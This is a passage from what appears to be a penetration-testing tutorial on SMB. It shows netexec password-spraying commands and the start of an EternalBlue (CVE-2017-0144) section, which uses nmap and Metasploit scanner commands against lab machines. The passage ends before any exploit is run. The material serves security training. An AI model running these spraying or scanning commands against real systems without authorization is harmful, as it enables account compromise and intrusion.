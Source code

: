 We can use `netexec' to perform password spraying.

The idea of `password spraying` is to use a limited set of passwords to try and authenticate with a large set of accounts. This is often useful because passwords are common and many times multiple users can use the same password.

```sh
nxc smb 192.168.122.30 -u "leo" -p passwords.txt
```

Using both a password and user file
```sh
nxc smb ip.txt -u users.txt -p passwords.txt --continue-on-success
```

### Scenario 5 - SMBv1 EternalBlue (CVE-2017-0144)

Older systems running SMBv1 can be vulnerable to dangerous attacks, such as `EternalBlue`, also known as `CVE-2017-0144` or `MS-17-010`.

For example, you can use the following resources to play around with
  vulnerable machines:

- TryHackMe, Blue
    - Machine: https://tryhackme.com/room/blue
    - OVA: https://darkstar7471.com/resources.html

- Hack The Box, Legacy
    - https://www.hackthebox.com/machines/legacy

Enumerate vulnerable configuration
```sh
nmap -p445 --script smb-vuln-ms17-010 192.168.122.163
```

Setup `msfconsole`
```sh
docker pull metasploitframework/metasploit-framework
```

```sh
docker run --name sploit --rm -dit --network "host" metasploitframework/metasploit-framework
```

```sh
docker exec -it sploit bash
```

Start metasploit
```sh
./msfconsole
```

Scan for vulnerabilty
```sh
use auxiliary/scanner/smb/smb_ms17_010
```

```sh
set RHOSTS 192.168.122.163
```
